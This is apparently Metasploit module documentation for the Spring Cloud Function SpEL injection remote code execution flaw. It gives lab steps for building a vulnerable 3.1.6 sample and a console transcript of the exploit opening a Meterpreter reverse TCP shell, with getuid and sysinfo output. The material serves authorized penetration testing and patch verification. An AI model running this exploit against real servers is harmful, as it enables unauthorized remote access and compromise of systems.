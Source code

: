 ## Vulnerable Application

Spring Cloud Function versions prior to 3.1.7 and 3.2.3 are vulnerable to remote code execution due to using
an unsafe evaluation context with user-provided queries. By crafting a request to the application and setting
the spring.cloud.function.routing-expression header, an unauthenticated attacker can gain remote code
execution. Both patched and unpatched servers will respond with a 500 server error and a JSON encoded message.

## Verification Steps

1. Build the application
   1. `wget https://github.com/spring-cloud/spring-cloud-function/archive/refs/tags/v3.1.6.zip`
   2. `unzip v3.1.6.zip`
   3. `cd spring-cloud-function-3.1.6/spring-cloud-function-samples/function-sample-pojo`
   4. `mvn package`
2. Run the application
   1. `java -jar ./target/function-sample-pojo-2.0.0.RELEASE.jar`
3. Start msfconsole
4. Run: `use exploit/multi/http/spring_cloud_function_spel_injection`
5. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload associated datastore options
6. Run the exploit

## Options

## Scenarios

### Spring Cloud Function v3.1.6 on Fedora 34

```
msf6 exploit(multi/http/spring_could_function_spel_injection) > show options

Module options (exploit/multi/http/spring_could_function_spel_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.128  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /functionRouter  yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(multi/http/spring_could_function_spel_injection) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (39920 bytes) to 192.168.250.134
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.134:56924 ) at 2022-03-30 17:59:07 -0400

meterpreter > getuid
Server username: smcintyre
meterpreter > pwd
/home/smcintyre/spring-rce/spring-cloud-function-3.1.6/spring-cloud-function-samples/function-sample-pojo
meterpreter > sysinfo
Computer        : localhost.localdomain
OS              : Linux 5.16.14-100.fc34.x86_64 #1 SMP PREEMPT Fri Mar 11 20:24:01 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```

